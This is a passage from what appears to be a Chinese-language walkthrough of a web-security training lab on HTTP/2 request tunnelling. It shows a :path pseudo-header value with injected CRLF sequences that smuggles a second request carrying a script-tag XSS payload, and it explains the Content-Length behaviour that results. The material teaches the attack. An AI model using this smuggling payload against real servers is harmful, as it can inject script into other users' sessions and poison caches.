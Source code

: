 随后我们需要找到一个基于 HTML 的 XSS 有效负载，而不编码或转义它可控点，发送对 GET /resources 的响应并观察到触发了到/resources/的重定向

[![](assets/1705287960-fddb87db7f0295a54b164c5e0210ec2d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111105213-6c62b3ec-b02c-1.png)  
随后尝试通过:path 伪头隧道传输该请求，在查询字符串中包括 XSS 有效负载

```bash
#Name
:path

#Vaule
/?cachebuster=3 HTTP/1.1\r\n
Host: YOUR-LAB-ID.web-security-academy.net\r\n
\r\n
GET /resources?<script>alert(1)</script> HTTP/1.1\r\n
Foo: bar
```

[![](assets/1705287960-3eff6c40f95b3b46e7ec3fdedeb89339.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111105237-7a96514e-b02c-1.png)  
从上面可以注意到请求超时了，这是因为主响应中的 Content-Length 头比隧道请求的嵌套响应长，随后我们检查对普通 GET /请求的响应中的内容长度并记下其值

[![](assets/1705287960-9193d073d5725e0955f2286570fa0a2d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111105250-8209aa5c-b02c-1.png)

